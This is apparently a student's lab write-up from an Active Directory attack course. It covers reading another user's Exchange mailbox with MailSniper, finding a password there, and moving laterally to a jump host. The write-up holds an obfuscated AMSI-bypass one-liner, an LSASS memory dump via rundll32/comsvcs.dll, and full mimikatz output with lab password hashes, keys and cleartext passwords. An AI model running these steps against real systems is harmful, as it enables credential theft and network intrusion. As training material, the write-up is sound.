# Hands-on 10: Exchange

- [Hands-on 10: Exchange](#hands-on-10-exchange)
  - [Tasks](#tasks)
  - [Search for mailboxes where studentuserx has permissions to read emails](#search-for-mailboxes-where-studentuserx-has-permissions-to-read-emails)
  - [Retrieve a password from the emails](#retrieve-a-password-from-the-emails)
  - [Find out if the password is valid for a user and then, extract secrets from a machine where that user has admin privileges](#find-out-if-the-password-is-valid-for-a-user-and-then-extract-secrets-from-a-machine-where-that-user-has-admin-privileges)

---

## Tasks

- Search for mailboxes where studentuserx has permissions to read emails.
- Retrieve a password from the emails.
- Find out if the password is valid for a user and then, extract secrets from a machine where that user has admin privileges.

<br/>

---

## Search for mailboxes where studentuserx has permissions to read emails

First run **InviShell**:

```
cd C:\AD\Tools; .\InviShell\RunWithRegistryNonAdmin.bat
```

  

<br/>

Next, import **MailSniper**:

```
. .\Mail_Sniper.ps1
```

<br/>

Enumerate all mailboxs in the Exchange Server:

```
Get-GlobalAddressList -ExchHostname us-exchange.us.techcorp.local -Verbose -UserName us\studentuser64 -Password nMXwCP5K9FgQveWL
```

  

  

```
pawadmin@techcorp.local
emptest@techcorp.local
exchangeuser@techcorp.local
jwilliams@techcorp.local
jwilliams@techcorp.local
pawadmin@techcorp.local
emptest@techcorp.local
exchangeuser@techcorp.local
jwilliams@techcorp.local
pawadmin@techcorp.local
studentuser59@techcorp.local
studentuser60@techcorp.local
studentuser61@techcorp.local
studentuser62@techcorp.local
studentuser63@techcorp.local
studentuser64@techcorp.local
studentuser65@techcorp.local
studentuser66@techcorp.local
studentuser67@techcorp.local
studentuser68@techcorp.local
studentuser69@techcorp.local
studentuser70@techcorp.local
studentuser59@techcorp.local
studentuser60@techcorp.local
studentuser61@techcorp.local
studentuser62@techcorp.local
studentuser63@techcorp.local
studentuser64@techcorp.local
studentuser65@techcorp.local
studentuser66@techcorp.local
studentuser67@techcorp.local
studentuser68@techcorp.local
studentuser69@techcorp.local
studentuser70@techcorp.local
emptest@techcorp.local
exchangeuser@techcorp.local
jwilliams@techcorp.local
```

- Save the output as `allemails.txt`

<br/>

Remove the duplicated entries:

```
type .\allemails.txt | Sort -Unique > emails.txt
```

<br/>

Check which mailboxs the current user can access:

```
Invoke-OpenInboxFinder -EmailList C:\AD\Tools\emails.txt -ExchHostname us-exchange.us.techcorp.local -Verbose
```

  

- The current user can access `pawadmin@techcorp.local` and `studentuser64@techcorp.local`

<br/>

---

## Retrieve a password from the emails

To get interesting information from `pawadmin@techcorp.local`:

```
Invoke-SelfSearch -Mailbox pawadmin@techcorp.local -ExchHostname us-exchange -OutputCsv .\pawadmin_mailbox.csv
```

  

- Password of PAW: `G0dIHateC0mplexPasswords!`

<br/>

---

## Find out if the password is valid for a user and then, extract secrets from a machine where that user has admin privileges

To use the `pawadmin` credential:

```
runas /netonly /user:us\pawadmin cmd.exe
```

  

<br/>

Run InviShell:

```
cd C:\AD
cd Tools
.\InviShell\RunWithRegistryNonAdmin.bat
```

  

<br/>

Use PowerView.ps1 to enumerate local admin access:

```
. .\PowerView.ps1; Find-LocalAdminAccess
```

  

- `pawadmin` has local admin access on `US-Jump.us.techcorp.local`

<br/>

Get a PSSession on `US-Jump`:

```
Enter-PSSession -ComputerName US-Jump.us.techcorp.local
```

  

<br/>

First bypass AMSI:

```
$BWZQCXH=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((29197492/3217));[Ref].Assembly.GetType("System.Management.Automation.$([sysTem.net.wEbutILITY]::hTmldEcodE('&#65;&#109;&#115;&#105;'))Utils").GetField("$([CHAr]([ByTE]0x61)+[ChaR]([byTE]0x6D)+[char](147-32)+[cHAR]([BYtE]0x69))Session", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.$([sysTem.net.wEbutILITY]::hTmldEcodE('&#65;&#109;&#115;&#105;'))Utils").GetField("$([CHAr]([ByTE]0x61)+[ChaR]([byTE]0x6D)+[char](147-32)+[cHAR]([BYtE]0x69))Context", "NonPublic,Static").SetValue($null, [IntPtr]$BWZQCXH);
```

  

- It doesn't work since we are in Contrained Language mode.

<br/>

Check the AppLocker policy:

```
Get-AppLockerPolicy -Effective
```

  

- AppLocker is not in place

Note:
We can also use `reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2` to check if AppLocker is used (Error = Not enabled)

<br/>

Check Windows Defender Application Guard (WDAC):

```
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

  

- `CodeIntegrityPolicyEnforcement` is enabled --> Constrained Language Mode

<br/>

To bypass WDAC, one of the way is to use Microsoft signed Binaries and Scripts.

- https://lolbas-project.github.io/

<br/>

Try to do a memory dump on the lsass process. First check the `PID` of the lsass process:

```
tasklist.exe /FI "IMAGENAME eq lsass.exe"
```

  

- `PID` : `720`

<br/>

Use `rundll32.exe` with `comsvcs.dll` to dump the `lsass.exe` memory:

```
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 720 C:\Users\Public\lsass.dump full
```

  

<br/>

Quit the current PSSession and get the dump from `US-JUMP`:

```
copy \\US-JUMP\C$\Users\Public\lsass.dump .\
```

  

<br/>

Get the credential in the memory dump using mimikatz.exe running as admin:

```
sekurlsa::minidump C:\AD\Tools\lsass.dump
privilege::debug
sekurlsa::ekeys
```

Result:

```
Authentication Id : 0 ; 344590 (00000000:0005420e)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:46 AM
SID               : S-1-5-96-0-2

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 39997 (00000000:00009c3d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:23 AM
SID               : S-1-5-90-0-1

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 22426 (00000000:0000579a)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:21 AM
SID               : S-1-5-96-0-1

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 2621821 (00000000:0028017d)
Session           : Service from 0
User Name         : appsvc
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 5:21:26 AM
SID               : S-1-5-21-210670787-2521448726-163245708-4636

         * Username : appsvc
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335
           rc4_hmac_nt       1d49d390ac01d568f0ee9be82bb74d4c
           rc4_hmac_old      1d49d390ac01d568f0ee9be82bb74d4c
           rc4_md4           1d49d390ac01d568f0ee9be82bb74d4c
           rc4_hmac_nt_exp   1d49d390ac01d568f0ee9be82bb74d4c
           rc4_hmac_old_exp  1d49d390ac01d568f0ee9be82bb74d4c

Authentication Id : 0 ; 383754 (00000000:0005db0a)
Session           : RemoteInteractive from 2
User Name         : pawadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:19:24 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1138

         * Username : pawadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30
           rc4_hmac_nt       36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old      36ea28bfa97a992b5e85bd22485e8d52
           rc4_md4           36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_nt_exp   36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old_exp  36ea28bfa97a992b5e85bd22485e8d52

Authentication Id : 0 ; 22411 (00000000:0000578b)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:21 AM
SID               : S-1-5-96-0-0

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : US-JUMP$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:20 AM
SID               : S-1-5-18

         * Username : us-jump$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       88f63b9e6109aeab1c3d706a8345088659b9784614469099b65bac8fe011b277
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 346234 (00000000:0005487a)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:47 AM
SID               : S-1-5-90-0-2

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 346186 (00000000:0005484a)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:47 AM
SID               : S-1-5-90-0-2

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 78301 (00000000:000131dd)
Session           : Service from 0
User Name         : webmaster
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 1:57:30 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1140

         * Username : webmaster
         * Domain   : us.techcorp.local
         * Password : 0wnerOftheIntraNetz!
         * Key List :
           aes256_hmac       2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
           aes128_hmac       7376b8c19301e2e5cd4019cea774c5ce
           rc4_hmac_nt       23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_old      23d6458d06b25e463b9666364fb0b29f
           rc4_md4           23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_nt_exp   23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_old_exp  23d6458d06b25e463b9666364fb0b29f

Authentication Id : 0 ; 40031 (00000000:00009c5f)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:23 AM
SID               : S-1-5-90-0-1

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : US-JUMP$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:22 AM
SID               : S-1-5-20

         * Username : us-jump$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       88f63b9e6109aeab1c3d706a8345088659b9784614469099b65bac8fe011b277
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 383689 (00000000:0005dac9)
Session           : RemoteInteractive from 2
User Name         : pawadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:19:24 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1138

         * Username : pawadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30
           rc4_hmac_nt       36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old      36ea28bfa97a992b5e85bd22485e8d52
           rc4_md4           36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_nt_exp   36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old_exp  36ea28bfa97a992b5e85bd22485e8d52

```

`us\webmaster`
- Password: `0wnerOftheIntraNetz`
- AES256: `2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0`
- NTLM: `23d6458d06b25e463b9666364fb0b29f`

<br/>

`us\appsvc`
- Password: ?
- AES256: `b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335`
- NTLM: `1d49d390ac01d568f0ee9be82bb74d4c`

<br/>

---